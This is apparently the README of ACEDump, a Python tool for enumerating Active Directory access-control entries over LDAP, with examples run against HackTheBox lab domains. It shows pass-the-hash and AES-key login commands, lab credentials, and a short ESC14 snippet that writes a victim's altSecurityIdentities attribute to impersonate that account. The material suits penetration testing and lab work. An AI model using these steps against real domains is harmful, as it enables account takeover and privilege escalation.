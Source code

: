 #######
ACEDump
#######

| Enumerate Active Directory ACEs using python3 ldap3 and impacket.

|

***************
Getting Started
***************

.. code-block:: bash

    pipx install git+https://github.com/charlesgargasson/acedump.git@main
    # pipx uninstall acedump
    # pipx upgrade acedump

    # sudo apt install -y libkrb5-dev
    # sudo yum install -y krb5-devel

|

.. code-block::

    -h, --help            show this help message and exit
    -s SERVER, --server SERVER
                        Domain controller IP or FQDN
    -u USERNAME, --username USERNAME
                        Username
    -p PASSWORD, --password PASSWORD
                        Password
    -d DOMAIN, --domain DOMAIN
                        Domain name
    -b BASE_DN, --base-dn BASE_DN
                        Base DN (e.g., DC=domain,DC=com)
    -k, --kerberos        Use Kerberos authentication
    --tls                 Use TLS
    -f FILTER, --filter FILTER
                        LDAP filter
    -H HASHES, --hashes HASHES, --nt HASHES
                        NT hash
    --aes AES             AES hash
    --kdc KDC             KDC FQDN
    --port PORT           LDAP port
    -i, --interact        Connect and spawn python console
    --dontfixtime         Don't fix clock skew
    --pagesize PAGESIZE   Size of pagination, default:500
    -v, --verbose         Enable verbose
    --debug               Enable debug output (you don't want to use this)
    --allsid              Include all SID (low and default RIDs)

|

.. image:: demo/img1.png
  :width: 1200
  :alt: IMG1

|

***********
Credentials
***********

| ACEDump support kerberos CCache using ldap3, and AES/NTHash using impacket.
| If you don't provide any hash or password, ACEDump will try a blank password.

.. code-block:: bash

    # CCACHE
    export KRB5CCNAME='USER.ccache'
    acedump -k -s DC01.BOX.HTB -u USER -d BOX.HTB

    # NTHash
    acedump -k -s DC01.BOX.HTB -u USER -d BOX.HTB -H 31d6cfe0d16ae931b73c59d7e0c089c0

    # AES
    acedump -k -s DC01.BOX.HTB -u USER -d BOX.HTB --aes 910e4c922b7516d4a17f05b5ae6a147578564284fff8461a02298ac9263bc913

|

***
NTP
***

| ACEDump mock LDAP's clock using currentTime attribute and libfaketime.
| Use dontfixtime option if you want to deal with clock skew by yourself

|

***********
Interactive
***********

| ACEDump connect to LDAP and start a python console.
| The connection object is "conn"

|

.. code-block:: bash

    $ acedump -s 10.129.231.205 -u P.Rosa -p Rosaisbest123 -k -i -v

      █████╗  ██████╗███████╗██████╗ ██╗   ██╗███╗   ███╗██████╗ 
     ██╔══██╗██╔════╝██╔════╝██╔══██╗██║   ██║████╗ ████║██╔══██╗
     ███████║██║     █████╗  ██║  ██║██║   ██║██╔████╔██║██████╔╝
     ██╔══██║██║     ██╔══╝  ██║  ██║██║   ██║██║╚██╔╝██║██╔═══╝ 
     ██║  ██║╚██████╗███████╗██████╔╝╚██████╔╝██║ ╚═╝ ██║██║     
     ╚═╝  ╚═╝ ╚═════╝╚══════╝╚═════╝  ╚═════╝ ╚═╝     ╚═╝╚═╝     
                -- version 0.0.5 --

    ✅ Anonymous bind : ldap://10.129.231.205:389 - cleartext
    ⚠️  LDAP clock in past : 2025-06-20 18:19:09 (7199.408678 seconds)
    🛠️  KDC : DC01.VINTAGE.HTB
    🛠️  KRB5_CONFIG saved to /tmp/krb.conf
    ✅ CCache saved to /tmp/P.Rosa.ccache
    ✅ Authenticated : ldap://DC01.VINTAGE.HTB:389 - cleartext
    ✅ Valid DN : DC=vintage,DC=htb

    ------------------------
    ACEDump interactive mode
    ------------------------

    Python 3.11.2 (main, Apr 28 2025, 14:11:48) [GCC 12.2.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    (InteractiveConsole)
    >>> print(conn)
    ldap://DC01.VINTAGE.HTB:389 - cleartext - user: None - not lazy - bound - open - <local: 10.10.14.182:54201 - remote: 10.129.231.205:389> - tls not started - listening - SyncStrategy - internal decoder

|

| Example to set VICTIM's altSecurityIdentities attribute for ESC14.

.. code-block:: bash

    target_dn = 'CN=victim,OU=Foobar,DC=box,DC=htb'
    issuer = 'DC=htb, DC=box, CN=box-DC01-CA'
    serial = '61:00:00:00:05:3d:d7:2a:1a:e6:6f:aa:f3:00:00:00:00:00:04'

    serial = ''.join(serial.split(':')[::-1])
    altSecurityIdentities = f"X509:<I>{issuer.replace(', ', ',')}<SR>{serial}"
    
    print(altSecurityIdentities)
    # X509:<I>DC=htb,DC=box,CN=box-DC01-CA<SR>040000000000f3aa6fe61a2ad73d0500000061

    import ldap3
    conn.modify(target_dn,{'altSecurityIdentities':[(ldap3.MODIFY_ADD, altSecurityIdentities)]})
    # Return True if changed

|